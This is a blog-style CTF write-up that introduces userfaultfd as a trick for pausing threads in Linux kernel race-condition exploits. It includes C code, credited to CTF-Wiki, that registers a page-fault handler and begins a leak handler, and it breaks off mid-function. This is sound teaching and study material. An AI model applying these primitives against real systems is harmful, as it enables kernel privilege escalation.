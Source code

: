 ```yaml
---
title: "Introduction of Kernel Exploitations: userfaultfd"
date: 2022-05-20 18:52:21
tags: 
layout: default
---
```


# 0x00 Prologue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 userfaultfd

It's a common trick used in kernel race condition exploitation. In general, it allows us to pause a thread so that it could be easier to trigger race condition.

More specifically, we use `userfaultfd` to create a handler for a specific page. In exploitation cases, the `copy_from_user` may trigger handler so that we have the ability to pause a thread.

I use the module from CTF-Wiki: 
```c
void RegisterUserfault(void *fault_page,void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
        Panic("ioctl-UFFDIO_API");

    ur.range.start = (unsigned long)fault_page; 
    ur.range.len   = PAGE_SIZE;
    ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) 
        Panic("ioctl-UFFDIO_REGISTER");

    int s = pthread_create(&thr, NULL,handler, (void*)uffd);

    if (s!=0)
        Panic("pthread_create");
}
void* userfaultfd_leak_handler(void* arg)
{
    struct uffd_msg msg;
    unsigned long uffd = (unsigned long) arg;
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    
    nready = poll(&pollfd, 1, -1);
    sleep(3);
    if (nready != 1)
    {
        Panic("Wrong poll return val");
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: https://github.com/n132/attachment/tree/main/QWB_2021_Qual/notebook